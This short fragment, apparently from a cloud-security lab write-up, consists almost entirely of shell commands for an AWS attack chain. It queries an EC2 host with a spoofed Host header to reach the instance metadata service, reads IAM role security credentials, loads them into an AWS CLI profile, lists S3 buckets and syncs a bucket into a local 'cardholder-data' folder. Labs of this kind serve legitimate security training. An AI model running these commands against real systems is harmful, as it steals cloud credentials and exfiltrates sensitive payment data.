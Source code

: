 `curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'`

​
`curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'`

​
`aws configure --profile erratic`

​
`aws_session_token = <session-token>`

​
`aws s3 ls --profile erratic`

​
`aws s3 sync s3://<bucket-name> ./cardholder-data --profile erratic`
